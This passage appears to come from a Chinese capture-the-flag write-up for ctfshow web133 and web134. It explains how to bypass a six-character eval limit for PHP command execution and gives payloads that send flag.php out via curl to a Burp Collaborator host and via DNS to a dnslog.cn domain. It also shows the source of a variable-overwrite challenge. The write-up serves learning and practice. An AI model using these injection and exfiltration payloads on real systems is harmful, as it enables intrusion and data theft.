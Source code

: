```php
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

通常无回显rce可以尝试把结果外带或者写入到能访问的地方
不过这里限制了长度为6，看了一下出题人的思路，确实学到了
[ctfshow web133和其他命令执行的骚操作_Firebasky的博客-CSDN](https://blog.csdn.net/qq_46091464/article/details/109095382)

其rce是这样的：
假如传入的F如下

```
?F=`$F`;+sleep 3
```

```
那么eval(substr($F,0,6));就是截取到`$F`;
而 $F=`$F`;+sleep 3
也就是说最终执行的就是``$F`;+sleep 3`
```

然后就是考虑如何把flag带出来了

> 出题的师傅做法：
> 利用curl的 -F参数 把flag文件上传到Burp的Collaborator Client
>
> ```
> # payload 
> #其中-F 为带文件的形式发送post请求
> #xx是上传文件的name值，flag.php就是上传的文件 
> 
> ?F=`$F`;+curl -X POST -F xx=@flag.php  http://8clb1g723ior2vyd7sbyvcx6vx1ppe.burpcollaborator.net
> ```

还有就是用dns外带，不过可能碰上带出来只能带1行，或者显示不全的情况，可以尝试用grep、sed和base64处理一下

```
?F=`$F`;+curl `cat flag.php`.7prisu.dnslog.cn
```

如果有写入权限可以试试写到能访问的地方，cp、mv也可以

```
?F=`$F`;+nl flag.php > 1.txt
```



## 134-extract变量覆盖

```php
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```
